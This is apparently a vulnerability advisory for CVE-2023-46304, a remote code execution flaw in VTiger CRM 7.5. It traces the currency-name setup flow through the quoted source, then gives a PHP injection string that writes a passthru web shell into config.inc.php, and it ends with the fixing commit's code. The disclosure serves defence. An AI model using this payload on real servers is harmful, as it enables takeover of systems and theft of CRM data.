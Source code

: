# CVE-2023-46304
Authenticated Remote Code Execution in VTiger Open Source CRM v7.5


## Summary
A vulnerability exists in the Users module in the current release of VTiger CRM Open Source
version 7.5.0 which allows an authenticated attacker to write and execute arbitrary PHP code to
config.inc.php.

## Exploit Details
When a user is authenticated in VTiger normally, it checks their setup status to see if this is
a new user that is not fully configured yet. It also checks to see if this is the first user,
meaning an admin who should configure certain global properties. If so they are redirected
to a UserSetup action in the Users module.

```php
$userSetupStatus = Users_CRMSetup::getUserSetupStatus($focus->id);
if ($userSetupStatus) {
    $user = $focus->retrieve_entity_info($focus->id, 'Users');
    $isFirstUser = Users_CRMSetup::isFirstUser($user);
    if($isFirstUser) {
        header('Location: index.php?module=Users&action=UserSetup');
    }
```
*/modules/Users/Authenticate.php, line 112*


In this action there is a check to see if the user has passed a global currency setting ("USA,
Dollars" by default) and saves it using the updateBaseCurrency function.

```php
//Handling the System Setup
$currencyName = $request->get('currency_name');
if(!empty($currencyName)) $userModuleModel->updateBaseCurrency($currencyName);
$userModuleModel->insertEntryIntoCRMSetup($userRecordModel->getId());
//End
```
*/modules/Users/actions/UserSetupSave.php, line 28*


In the updateBaseCurrency function, the provided value is set as the global currency setting
for the entire system in the database and it also calls the updateConfigFile function, which
opens the config file and uses PHP str_replace to replace the existing value with the one
provided.

```php
public function updateConfigFile($currencyName) {

    $currencyName = '$currency_name = \''.$currencyName.'\'';
    //Updating in config inc file
    $filename = 'config.inc.php';
    if (file_exists($filename)) {
        $contents = file_get_contents($filename);
        $currentBaseCurrenyName = $this->getBaseCurrencyName();
        $contents = str_replace('$currency_name =
        \''.$currentBaseCurrenyName.'\'', $currencyName, $contents);
        file_put_contents($filename, $contents);
    }
}
```
*/modules/Users/models/Module.php, line 148*

The user setup action in the current version of VTiger CRM does not check that the user is
actually set up or not, or has permission to change global variables. It only assumes that if
you are accessing that page then you are the person who should be configuring it. So, by
using an existing session cookie and a CSRF token taken from any authenticated page
load, a malicious user can POST in a currency value like:

```USA, Dollars';@passthru($_GET['cmd']);//```


This value is then written blindly to the config.inc.php file as:

```php
//Master currency name
$currency_name = 'USA, Dollars';@passthru($_GET['cmd']);//';
```

Since the config file is loaded on every page, then a malicious user can simply pass a unix
command as the cmd parameter and see output at the top of the page.

![Executed payload](1.png)

## Remediation

This issue was fixed in [this commit](https://code.vtiger.com/vtiger/vtigercrm/-/commit/317f9ca88b6bbded11058f20a1d232717c360d43) where additional validation was added to make sure that malicious currency names could not be entered by users, and instead the value would be pulled from database table.

```php
public function updateBaseCurrency($currencyName) {
		$db = PearDatabase::getInstance();
		$result = $db->pquery('SELECT currency_code, currency_symbol, currency_name FROM vtiger_currencies WHERE currency_name = ?', array($currencyName));
		$num_rows = $db->num_rows($result);
		if ($num_rows > 0) {
			$currency_code = decode_html($db->query_result($result, 0, 'currency_code'));
			$currency_symbol = decode_html($db->query_result($result, 0,'currency_symbol'));
			$currencyName = decode_html($db->query_result($result, 0, 'currency_name')); // rewrite actual from table.
		} else {
			// Invalid currency name.
			return;
		}
		$this->updateConfigFile($currencyName);
		//Updating Database
		$query = 'UPDATE vtiger_currency_info SET currency_name = ?, currency_code = ?, currency_symbol = ? WHERE id = ?';
		$params = array($currencyName, $currency_code, $currency_symbol, '1');
		$db->pquery($query, $params);


	}
```
